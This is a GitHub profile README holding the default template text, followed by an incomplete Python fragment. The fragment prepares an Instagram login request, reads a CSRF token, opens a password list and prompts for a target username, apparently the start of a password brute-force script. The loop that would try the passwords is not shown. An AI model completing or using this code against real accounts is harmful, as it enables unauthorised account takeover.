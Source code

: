 - 👋 Hi, I’m @emadtermux
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
emadtermux/emadtermux is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
link = 'https://www.instagram.com/accounts/login/'
login_url = 'https://www.instagram.com/accounts/login/ajax/'

response = session.get(link)
csrf = response.cookies['csrftoken']

time = int(datetime.now().timestamp())


passwords = open('h.txt', 'r')
username = str(input('Enter your username or gmail: '))
